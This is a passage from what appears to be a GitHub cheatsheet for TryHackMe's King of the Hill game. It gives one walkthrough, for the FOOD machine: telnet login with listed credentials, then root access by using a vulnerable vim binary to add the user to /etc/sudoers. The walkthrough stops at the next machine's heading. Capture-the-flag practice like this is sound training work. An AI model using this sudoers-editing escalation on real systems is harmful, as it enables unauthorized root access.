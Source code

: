 # This is a work in progress, Many more machine cheatsheets will be updated very soon.
### Active Contributors : 
Sorry I am lazy AF, will update more machines soon!
 
#### I am not posting the methods that are 'technically' better, I am posting methods that will be easiest to do and will get you win. Target is to win while being inside the rules. This is not an exam, there are no wrong answers. As the saying goes, If it works, don't touch it.
This a github cheatsheet of owning the machines in King of the Hill game of TryHackMe.

## Index of Machine Covered:
1. [Food](#machine-name-food)
2. [Shrek](#machine-name-shrek)
3. [SpaceJam](#machine-name-space-jam)
4. [Fortune](#machine-name-fortune)
5. [Production](#machine-name-production)
6. [Lion](#machine-name-lion)
7. [Hackers](https://github.com/holmes-py/King-of-the-hill/blob/master/Writeup%20for%20Hackers%2001.md)

# Machine name: FOOD
NMAP scan with `-p-` revealed that there is a telnet running on port 46969. <br /> 

So following are the steps to get root, ASAP. <br /> 

1. Connect on the port: <br /> 
    `telnet <IP> 46969` <br /> 
2. The Username and password are in caesor cipher. <br /> 
    Username: food <br /> 
    Password: givemecookies <br /> 
3. After scanning the machine with linPEAS.sh, We found that `vim.basic` binary is vuln to read and write to privilaged files.
    `vim.basic /etc/sudoers` <br /> 
    Press i <br /> 
    Add this line after the line with `root` is the start. <br /> 
    `food ALL=(ALL:ALL) ALL` <br /> 
    Press Ctrl+[ <br /> 
    Press :w! Enter <br /> 
    Press :q! Enter <br /> 
    `sudo su` <br /> 
    In prompt enter the password of food, i.e.  `givemecookies` <br /> 
   #### YOU ARE ROOT. NOW DEFEND YOUR TITILE.
    


#  Machine name: SHREK
